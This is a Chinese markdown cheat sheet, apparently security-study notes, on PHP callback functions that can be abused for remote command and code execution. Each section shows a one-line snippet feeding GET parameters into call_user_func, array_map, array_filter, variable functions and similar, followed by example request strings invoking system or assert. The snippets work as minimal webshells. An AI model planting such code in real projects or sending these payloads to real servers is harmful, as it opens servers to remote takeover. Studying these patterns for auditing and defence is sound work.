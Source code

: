 # PHP回调函数

---

## call_user_func

call_user_func — 把第一个参数作为回调函数调用, 其余参数是回调函数的参数

```php
<?php
    call_user_func($_GET['a1'],$_GET['a2']);
?>
//xxx.php?a1=system&a2=whoami  //命令执行
//xxx.php?a1=assert&a2=phpinfo()   //代码执行
```

## call_user_func_array()

call_user_func_array() 把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入
```php
<?php
    call_user_func_array($_GET['a1'],$_GET['a2']);
?>
//xxx.php?a1=system&a2[]=whoami
//xxx.php?a1=assert&a2[]=phpinfo()
```

## create_function()

创建匿名函数（Anonymous functions），允许 临时创建一个没有指定名称的函数。最经常用作回调函数（callback）参数的值
```php
<?php
    $b=create_function('', @$_REQUEST['a']);$b();
?>
//xxx.php?a=phpinfo();
```

## array_walk()

array_walk — 使用用户自定义函数对数组中的每个元素做回调处理
```php
<?php
    array_walk($_GET['a'],$_GET['b']);
?>
//xxx.php?a[]=whoami&b=system
//xxx.php?a[]=phpinfo()&b=assert
```

## array_map()

array_map()为数组的每个元素应用回调函数。返回数组，是为 array1 每个元素应用 callback函数之后的数组。callback 函数形参的数量和传给 array_map() 数组数量，两者必须一样。
```php
<?php
    array_map($_GET['a'],$_GET['b']);
?>
//xxx.php?a=system&b[]=whoami
//xxx.php?a=assert&b[]=phpinfo()
```

## array_filter()

array_filter()用回调函数过滤数组中的单元。依次将 array 数组中的每个值传递到 callback 函数。如果 callback 函数返回 true， 则 array 数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。
```php
<?php
    array_filter(array($_GET['cmd']),$_GET['func']);
?>
//?func=system&cmd=whoami
//?func=assert&cmd=phpinfo()
```

## 可变函数$var(args)

PHP 支持可变函数的概念。如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数， 并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途。
```php
<?php
    $_GET['a']($_GET['b']);
?>
//xxx.php?a=system&b=whoami
//xxx?a=assert&b=phpinfo()
```
